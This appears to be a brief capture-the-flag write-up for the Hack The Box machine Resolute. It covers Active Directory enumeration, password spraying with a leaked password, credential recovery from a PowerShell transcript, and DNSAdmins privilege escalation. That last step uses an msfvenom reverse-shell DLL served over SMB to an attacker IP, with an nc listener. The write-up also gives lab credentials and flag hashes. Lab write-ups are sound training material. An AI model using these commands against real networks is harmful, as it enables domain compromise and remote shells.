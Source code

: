 '''
10.129.96.155 - Resolute
'''

## Ports Open:
> Refer to `allports.nmap`

## Exploitation:
> Found no shares
> `ldapsearch` shows domain as `megabank.local`
> Used `ldapsearch` to get more info
```bash
ldapsearch -h 10.129.96.155 -x -b "DC=megabank,DC=local"
``` 
> Also queried users using `ldapsearch` to corelate
> `nslookup` gives nothing
> Cant do zone transfers
> `rpcclient` works
> Found users
> Found interesting group `contractors` and it has one member `ryan`
> AS-REP Roasting gives nothing
> Found the domain as `MEGABANK`
> Found user `marko` having password in description
	marko:Welcome123!
```bash
querydispinfo
```
> Did password spraying on all accounts with this password
> Password works for user `melanie`
> Got shell using `evil-winrm`
> Found `user.txt`
	d7b0b400ee744271e298c5e06ae264fe
> Used `Seatbelt.exe` and found `C:\PSTranscripts`
> Found it using this too
```powershell
gci -Hidden
```
> Found a powershell transcript
> Found password for `ryan` in it
	ryan:Serv3r4Admin4cc123!
> Found a `note.txt` in `ryan` user's desktop
```
Email to team:
- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
> We know `ryan` is a part of `DNSAdmins` group
> We can use it for privilege escalation
> Made a malicious DLL using `msfvenom`
```bash
msfvenom -a x64 -p -p windows/x64/shell_reverse_tcp LHOST=10.10.15.75 LPORT=4444 -f dll > privesc.dll
```
> Started a SMB server
```bash
smbserver.py share .
```
> Used these commands to get a shell
```bash
# ON WINDOWS
dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.15.75\share\privesc.dll
sc.exe stop dns
sc.exe start dns

# ON LINUX
nc -lvnp 4444
```
> GOT ROOT!!!
	101f63a3e2b46e2de524395a47186082